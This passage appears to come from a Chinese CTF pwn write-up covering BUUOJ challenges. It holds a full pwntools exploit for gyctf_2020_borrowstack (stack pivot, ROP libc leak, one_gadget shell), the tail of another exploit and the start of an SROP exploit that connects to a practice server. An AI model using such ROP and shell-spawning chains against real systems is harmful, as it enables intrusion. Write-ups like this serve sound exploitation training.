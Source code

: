 ```python
add(8,p32(system_addr)+";sh")
view(0)

p.interactive()  
```  
## 0x09 gyctf_2020_borrowstack  
i春秋的抗击疫情公益赛，栈迁移，不是自己做出来的，挖坑待填……武汉加油！  
据说执行完puts函数之后，read的got表被改写了，导致rip变成了0，所以需要往后挪挪位置……  
```  
因为迁移之后函数调用会让栈增高，表现出来的就是bss的低地址会被拿来放一些数据，所以read_got就被改了
```   
后面再补充，还没理解  
```python  
#coding=utf-8
from pwn import*
from LibcSearcher import*
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
p=process("./borrowstack")
#p=remote("node3.buuoj.cn",26086)
#p=remote("123.56.85.29",3635)
elf = ELF("./borrowstack")
libc = elf.libc
leave_ret = 0x400699
pop_rdi_ret = 0x400703
pop_rsi_r15 = 0x400701
ret = 0x00000000004004c9
ret = p64(ret)
buf = elf.bss() + 0x300

p.recvuntil("want\n")
p.send("a"*0x60 + p64(0x601080) + p64(leave_ret))
p.recvuntil("now!\n")
payload = p64(buf) +ret+ret+ret+ret+ret+ret+ p64(pop_rdi_ret) + p64(elf.got['puts']) + p64(elf.plt['puts']) 
payload += p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_r15) + p64(buf) + p64(0) + p64(elf.plt['read']) 
payload += p64(leave_ret)
#gdb.attach(p)
p.send(payload)

puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
log.success("puts_addr==>" + hex(puts_addr))
libc_base = puts_addr - libc.sym['puts']
sys_addr = libc_base + libc.sym['system']
binsh_addr = libc_base + libc.search("/bin/sh").next()
one_gadget = libc_base + 0xf1147 

p.send(p64(0xdeadbeef) + p64(one_gadget))

p.interactive()

```  
## 0x10  ciscn_2019_es_7/ciscn_2019_s_3  
SROP一把梭    
```python  
from pwn import*
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
context.arch = 'amd64'
p=remote("node3.buuoj.cn",27476)
#p = process("./ciscn_2019_es_7")
elf = ELF("./ciscn_2019_es_7")
```